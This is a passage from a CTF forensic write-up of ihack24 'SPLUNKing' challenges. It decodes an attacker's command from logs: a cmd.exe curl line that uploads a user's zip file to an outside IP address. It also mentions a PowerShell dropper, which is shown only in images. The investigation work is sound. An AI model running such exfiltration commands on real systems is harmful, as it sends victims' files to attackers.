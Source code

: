 Decode the encoded strings from decimal to ascii.

Decoded strings:

`cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Downloads\DESKTOP-97O75B7U.zip`

### Flag

ihack24{DESKTOP-97O75B7U.zip}

***

## SPLUNKing 8

<figure><img src="../../../.gitbook/assets/image (132).png" alt="" width="215"><figcaption></figcaption></figure>

Also, around the same timestamp, there was another powershell command which acted as a **dropper.**

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

### Flag
